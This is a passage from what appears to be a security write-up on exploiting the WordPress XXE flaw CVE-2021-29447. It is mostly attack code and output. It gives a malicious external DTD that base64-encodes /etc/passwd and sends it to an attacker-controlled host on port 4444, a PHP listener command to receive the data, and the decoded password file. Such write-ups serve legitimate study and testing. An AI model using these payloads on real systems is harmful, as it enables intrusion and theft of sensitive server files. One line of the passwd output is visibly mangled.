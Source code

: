 ```jsx
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:4444/?p=%file;'>" >
```

```jsx
php -S 0.0.0.0:4444
```

Once uploaded, I was able to use this file to establish a connection back to my HTTP server and execute an XXE attack by including `/etc/passwd` without proper validation, thereby accessing sensitive data on the targeted system. For this purpose, I also created a custom file called `NAMEEVIL.dtd`, which connected to the server and provided content in encoded base64 form.

![image.png](assets/Wordpress_CVE-2021-29447/image%201.png)

By decoding the `/etc/passwd` file, I was able to successfully exploit the vulnerability.

```jsx
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
   systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
   systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
   systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
   syslog:x:104:108::/home/syslog:/bin/false
   _apt:x:105:65534::/nonexistent:/bin/false
   messagebus:x:106:110::/var/run/dbus:/bin/false
   uuidd:x:107:111::/run/uuidd:/bin/false
   czjqqkd:6REDACTEDczjqqkd:7:x:1000:1000:CVE-2021-29447,,,:/home/czjqqkd:8REDACTEDczjqqkd:9:/bin/bash
   sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
   mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false

```
